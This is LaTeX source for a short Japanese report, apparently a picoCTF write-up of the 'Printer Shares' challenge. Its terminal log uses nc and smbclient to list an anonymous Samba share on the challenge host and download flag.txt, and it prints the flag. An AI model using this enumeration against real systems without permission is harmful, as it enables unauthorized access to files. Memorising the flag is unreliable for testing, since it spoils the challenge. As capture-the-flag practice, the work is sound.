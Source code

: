 \documentclass[a4paper,11pt,lualatex,ja=standard]{bxjsarticle}
\newcommand{\cover}[3]{
  \thispagestyle{empty}
  \vspace*{4cm}
  \begin{center}
    {\LARGE #1}\\[2cm]
    {\Large #2}\\[3cm]
    {\large 氏名：#3}\\[1cm]
  \end{center}
  \newpage
}
\begin{document}
\cover{Printer Shares}{CyLab}{yukimi}

\title{レポートタイトル}
\author{氏名}
\date{\today}

\section{メモ}
\begin{verbatim}
yukimi-academy@webshell:~$ nc -vz mysterious-sea.picoctf.net 63805
Connection to mysterious-sea.picoctf.net (3.130.79.223) 63805 port [tcp/*] succeeded!
yukimi-academy@webshell:~$ smbclient -L //mysterious-sea.picoctf.net -p 63805 -N

        Sharename       Type      Comment
        ---------       ----      -------
        shares          Disk      Public Share With Guests
        IPC$            IPC       IPC Service (Samba 4.19.5-Ubuntu)
SMB1 disabled -- no workgroup available
yukimi-academy@webshell:~$ smbclient -L //mysterious-sea.picoctf.net/shares -p 63805 -N

        Sharename       Type      Comment
        ---------       ----      -------
        shares          Disk      Public Share With Guests
        IPC$            IPC       IPC Service (Samba 4.19.5-Ubuntu)
SMB1 disabled -- no workgroup available
yukimi-academy@webshell:~$ ls
README.txt  challenge  exit
yukimi-academy@webshell:~$ smbclient //mysterious-sea.picoctf.net/shares -p 63805 -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar  6 20:25:41 2026
  ..                                  D        0  Fri Mar  6 20:25:41 2026
  dummy.txt                           N     1142  Wed Feb  4 21:22:17 2026
  flag.txt                            N       37  Fri Mar  6 20:25:41 2026

                65536 blocks of size 1024. 57348 blocks available
smb: \> get flag.txt 
getting file \flag.txt of size 37 as flag.txt (12.0 KiloBytes/sec) (average 12.0 KiloBytes/sec)
smb: \> exit
yukimi-academy@webshell:~$ ls
README.txt  challenge  exit  flag.txt
yukimi-academy@webshell:~$ cat flag.txt 
picoCTF{5mb_pr1nter_5h4re5_8eb}

\end{verbatim}
\end{document}
